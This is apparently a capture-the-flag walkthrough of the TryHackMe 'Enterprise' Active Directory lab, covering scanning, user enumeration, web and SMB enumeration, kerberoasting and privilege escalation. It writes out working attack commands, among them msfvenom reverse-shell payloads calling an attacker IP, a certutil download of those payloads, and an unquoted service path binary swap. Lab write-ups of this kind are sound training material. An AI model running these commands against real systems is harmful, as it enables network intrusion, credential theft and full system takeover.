

This TryhackMe room that helps solidify Active Directory penetration testing.

Machine IP: 10.10.105.193

# Scanning

## Nmap

```
sudo nmap -sC -sV -O 10.10.105.193
```


We have port 53,88,135,389,445,464, 636 etc.

Also, rustscan to see if we have more ports running on the target

```
└─$ rustscan -a 10.10.105.193 --ulimit 5000 -- -A -sC -oN nmap_scan
```


We found an extra port 7790


Also see the domain: "LAB.ENTERPRISE.THM", "LAB-DC.LAB.ENTERPRISE.THM", "ENTERPRISE.THM"


Find potential users

```
kerbrute_linux_amd64 userenum --dc 10.10.105.193 -d LAB.ENTERPRISE.THM /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```


Save output in raw_users.txt, then we clean the file to maintain only users

```
cat raw_users.txt | cut -d " " -f 14 | cut -d "@" -f 1 | tee users.txt
cat raw_users.txt | cut -d " " -f 14 | tee user_domain.txt
```


## DNS Enum

```
└─$ dig  @10.10.105.193 LAB.ENTERPRISE.THM
```


Since port 80 is open, let's visit it


## Web enumeration

FILES:

```
export URL="http://lab.enterprise.thm/FUZZ"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
```


robots.txt


DIRECTORIES

```
export URL="http://lab.enterprise.thm/FUZZ/"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL
```

## SMB enumeration

```
smbclient -L \\\\10.10.105.193\\
smbclient \\\\10.10.105.193\\Docs
smbclient \\\\10.10.105.193\\Users
```


## Enumerate port 7990

We get an Atlassian instance


FILES:

```
export URL="http://10.10.105.193:7790/FUZZ"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
```

Projectone

DIRECTORIES

```
export URL="http://10.10.105.193:7990/FUZZ/"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL"
```

Recall that we have a list of potential users, we bruteforce using Burp Intruder. That did not work. Now, since we have an Atlassian page, we can deduce that we would have a github repo of Enterprise THM.



We see this THM enterprise repo, looking closely, we see the About-Us repo. In the people tab, we see Nik-enterprise-dev .


Digging deeper, we see a new powershell repo with hardcoded credentials (nik: ToastyBoi!)


Try credentials on SMB logins:

```
crackmapexec smb 10.10.137.231 -u nik -p 'ToastyBoi!'"
```


It works!! Let's see enumerate SMB with the newly discovered valid credentials:

```
smbclient -L 10.10.137.231 -U nik
```


```
smbclient \\\\10.10.137.231\\ADMIN$ -U nik
```

We still get same access like we did initially. Let's circle back to the Actice Directory attack strategy.


This is from my note. So, we could check if the nik user is kerberoastable using GetSPN command:

```
impacket-GetUserSPNs -request LAB.ENTERPRISE.THM/nik -dc-ip 10.10.137.231
```


We see that the nik user is indeed kerberoastable and we can proceed to cracking the hash.

```
john --format=krb5tgs hahs --wordlist=/usr/share/wordlists/rockyou.txt
```


It means we can login via winrm and psexec using (bitbucket: littleredbucket), but they didn't work. I eventually tied xfreerdp.

```
xfreerdp /v:10.10.137.231 /u:bitbucket /p:littleredbucket /dynamic-resolution +clipboard
```


The user flag is just on the desktop.

### Getting Root

First, we need to find a way to get a stable shell, preferabbly getting the shell on our attacker machine. This can be done by using msfvenom.

#### Create payload

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.67.255 LPORT=4443 -f exe -o shell.exe
```

Download payload on victim machine and execute

```
certutil.exe -urlcache -f http://10.11.67.255/shell.exe shell.exe
```

We have a shell on our kali machine:


Now we can run winpeas to find low-haniging fruits.

#### Convert shell to powershell

```
powershell -ep bypass
```

We notice an unquoted service path vulnerability we can take advantage of. The service is running zerotieroneservice.

Path: C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe.
We need to create a reverse shell payload, replace it with the zero tier one file.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.67.255 LPORT=4433 -f exe -o ZeroTier.exe
```


```
certutil.exe -urlcache -f http://10.11.67.255/ZeroTier.exe ZeroTier.exe
copy ZeroTier.exe "C:\Program Files (x86)\Zero Tier\Zero Tier One\"
Start-Service zerotieroneservice
```

...and we get nt authority

